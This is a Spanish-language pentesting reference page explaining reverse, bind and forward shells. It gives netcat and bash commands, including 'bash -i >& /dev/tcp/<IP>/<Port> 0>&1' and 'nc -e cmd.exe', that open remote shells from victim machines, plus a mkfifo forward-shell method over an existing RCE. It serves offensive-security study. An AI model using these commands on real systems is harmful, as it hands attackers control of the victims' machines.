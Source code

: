 # Shells

## Tipos de Shell

### Reverse Shell

<figure><img src="../../.gitbook/assets/image (10) (1) (3).png" alt=""><figcaption><p>Target to Attacker</p></figcaption></figure>

#### Atacante Linux

{% code overflow="wrap" %}
```bash
nc -lvnp <Port>
```
{% endcode %}

Donde:

* `-l` : Modo escucha
* `-v` : Modo verbose (Retorna Información de la conexión, se puede usar -vvv para mas información en la conexión).
* `-n` : Deshabilitar resolución inversa de DNS
* `-p <Port>` : Establece el puerto de escucha

#### Victima Linux

```bash
nc -e /bin/bash <IP> <Port>

# Bash
bash -i >& /dev/tcp/<IP>/<Port> 0>&1
```

#### Víctima Windows

```bash
nc.exe –e cmd.exe <IP> <Port>
```

### Bind Shell

En algunos proyectos donde no puedas establecer un servidor de escucha por que te encuentres por NAT o por Firewall, a veces es conveniente de que la máquina victima esté en modo escucha ofreciendo la shell, a esto se le llama <mark style="color:green;">**Bind shell**</mark> o <mark style="color:green;">**shell directa.**</mark>

<figure><img src="../../.gitbook/assets/image (26) (2).png" alt=""><figcaption></figcaption></figure>

#### Atacante Linux

```bash
nc <IP Target> <Port>
```

#### Víctima Linux

{% code overflow="wrap" %}
```bash
nc -lvnp <Port> -e /bin/bash
```
{% endcode %}

#### Víctima Windows

{% code overflow="wrap" %}
```bash
nc.exe -l -p <Port> -e cmd.exe
```
{% endcode %}

### Forward Shell

Esta técnica se utiliza cuando no se pueden establecer conexiones Reverse o Bind debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO** (**named pipe**), que se utiliza como una especie de “**consola simulada**” interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.

Puedes encontrar casos en los que tienes un RCE (Remote Code Execution) en una aplicación web en una máquina Linux pero debido a reglas Iptables u otro tipo de filtrado no puedes obtener una shell inversa.

Esta técnica o tipo de "shell" te permite mantener un shell PTY a través de ese RCE usando tuberías dentro del sistema víctima.

{% embed url="https://github.com/IppSec/forward-shell" %}

Sólo necesitas modificar La URL del host vulnerable El prefijo y sufijo de tu payload (si lo hay) La forma en que se envía el payload (¿encabezados? ¿datos? ¿información extra?) Luego, sólo tienes que enviar comandos o incluso utilizar el comando upgrade para obtener un PTY completo (ten en cuenta que las tuberías se leen y escriben con un retardo aproximado de 1,3s).

## Referencias

{% embed url="https://www.revshells.com/" %}
Generador de Revershells
{% endembed %}

{% embed url="https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/" %}
